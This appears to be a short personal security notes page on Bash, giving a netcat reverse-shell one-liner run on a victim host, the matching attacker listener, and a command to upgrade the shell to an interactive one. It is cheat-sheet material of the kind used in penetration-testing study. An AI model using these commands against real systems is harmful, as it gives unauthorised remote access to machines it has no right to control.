 ```yaml
---
layout: post
title: 'Notes | Bash'
permalink: /notes/system/bash/
---
```


# Reverse Shell
If we can execute code in the victim:
{% highlight bash %}
... nc -e /bin/sh <ip>:<port>
{% endhighlight %}

While in the attacker:
{% highlight bash %}
> nc -lvnp <port>
{% endhighlight %}

# After a reverse shell...
We can get a interactive shell with the following command:
{% highlight bash %}
> script /dev/null -c bash
{% endhighlight %}

